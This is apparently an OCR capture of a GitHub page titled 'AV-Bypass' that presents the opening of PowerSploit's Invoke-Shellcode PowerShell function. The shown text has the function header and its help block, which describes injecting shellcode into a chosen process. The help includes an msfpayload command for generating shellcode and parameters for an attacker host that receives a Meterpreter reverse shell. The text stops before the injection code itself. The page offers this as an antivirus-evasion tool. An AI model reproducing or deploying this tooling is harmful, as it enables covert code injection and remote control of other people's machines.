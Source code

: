 AV-Bypass
=========

Powershell Bypass


function Invoke-Shellcode
{
<#
.SYNOPSIS

Inject shellcode into the process ID of your choosing or within the context of the running PowerShell process.

PowerSploit Function: Invoke-Shellcode
Author: Matthew Graeber (@mattifestation)
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None
 
.DESCRIPTION

Portions of this project was based upon syringe.c v1.2 written by Spencer McIntyre

PowerShell expects shellcode to be in the form 0xXX,0xXX,0xXX. To generate your shellcode in this form, you can use this command from within Backtrack (Thanks, Matt and g0tm1lk):

msfpayload windows/exec CMD="cmd /k calc" EXITFUNC=thread C | sed '1,6d;s/[";]//g;s/\\/,0/g' | tr -d '\n' | cut -c2- 

Make sure to specify 'thread' for your exit process. Also, don't bother encoding your shellcode. It's entirely unnecessary.
 
.PARAMETER ProcessID

Process ID of the process you want to inject shellcode into.

.PARAMETER Shellcode

Specifies an optional shellcode passed in as a byte array

.PARAMETER ListMetasploitPayloads

Lists all of the available Metasploit payloads that Invoke-Shellcode supports

.PARAMETER Lhost

Specifies the IP address of the attack machine waiting to receive the reverse shell

.PARAMETER Lport
 
Specifies the port of the attack machine waiting to receive the reverse shell

.PARAMETER Payload

Specifies the metasploit payload to use. Currently, only 'windows/meterpreter/reverse_http' and 'windows/meterpreter/reverse_https' payloads are supported.

.PARAMETER UserAgent

Optionally specifies the user agent to use when using meterpreter http or https payloads

